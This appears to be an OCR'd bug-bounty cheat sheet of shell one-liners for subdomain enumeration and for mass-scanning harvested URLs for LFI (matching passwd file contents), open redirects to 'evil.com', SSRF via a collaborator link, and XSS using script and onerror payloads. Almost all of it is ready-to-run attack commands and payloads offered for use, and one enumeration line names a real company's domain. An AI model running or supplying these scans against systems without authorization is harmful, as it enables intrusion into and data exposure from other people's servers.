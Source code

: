 ```
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"

## from HackerTarget
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"

## from AlienVault
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u

## from Censys
censys subdomains target.com

## from subdomain center
curl "https://api.subdomain.center/?domain=target.com" | jq -r '.[]' | sort -u
```
--------
## LFI:
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) |  grep "=" |  dedupe | httpx -silent -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
----------------------
## Open Redirect:
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | grep "=" | dedupe | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```
-----------------------
## SSRF:
```
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> tmp-ssrf.txt; httpx -silent -l tmp-ssrf.txt -fr 
```
----------------
## XSS:
### Knoxss mass hunting
```
file=$1; key="API_KEY"; while read line; do curl https://api.knoxss.pro -d target=$line -H "X-API-KEY: $key" -s | grep PoC; done < $file
```
```
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"
```
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```
```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
